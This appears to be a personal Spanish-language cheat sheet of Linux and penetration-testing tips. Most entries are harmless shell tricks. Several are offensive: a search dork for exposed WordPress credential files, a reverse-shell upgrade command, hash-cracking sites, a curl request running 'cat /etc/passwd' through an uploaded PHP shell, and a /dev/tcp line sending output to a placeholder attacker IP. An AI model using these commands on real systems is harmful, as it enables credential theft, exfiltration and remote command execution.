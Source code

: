 - Kill %  o Kill $!--> matar proceso que acabo de dejar en 2º plano

- Reduce el tamaño de ejecutables 
1. go build -ldflags "-s -w"

- upx ffuf --> le quita peso al binario

- Enviar errors fuera de la terminal y hacer independiente la ventana
1. burpsuite captura.cap &> /dev/null & disown

- Encontrar credens de bases de datos de wordpress
1. inurl:wp-config.php.txt

- Saber Sistema operativo por TTL
 1. https://subinsb.com/default-device-ttl-values/

- Terminal interactiva una vez reverse shell
1. script /dev/null -c bash

- Saber qué shell es
1. echo $0

- Ir al directorio anterior --> pushd, popd

- Poner colores a la lectura de un script
1. cat -l bash

- **rlwrap**
1. Sirve para adaptar las shells de forma interactiva

- **Páginas de crackeo**
1. [Crackthehash](https://hashes.com)
2. [Crackstation](https://crackstation.com)
3. [OnlineHashCrack](https://www.onlinehashcrack.com/)
Los hashes que empiezan por **aad3b435b51404eeaad3b435b51404ee** son hashes vacíos

- Dónde está el binario y ver info con ll sin mover del directorio
1. which nmap | xargs ls -la

- Copiar contenido de un archivo sin meterse en él
```bash
cat archivazo.txt | xclip -sel clip
```


- **ctrl+ u** en una web para que salga un json o cualquier archivo con un formato correcto
- si un user pertenece al grupo **adm**, será capaz de ver los logs de cualquier app
- Para URL encodear y mandar data como con **--data** con curl
```bash
curl -s -X GET "http://localhost:puerto/upload/archivo.php" -G --data-urlencode "cmd=cat /etc/passwd"
```

- PAra enviar comandos a un puerto en escucha

```bash
`whoami > /dev/tcp/ipatacante/8080 0>&1`
nc -nlvp 8080
```

- Para saber si un proceso por un puerto está corriendo PJ: 22
```bash
echo '' > /dev/tcp/ip/22
```
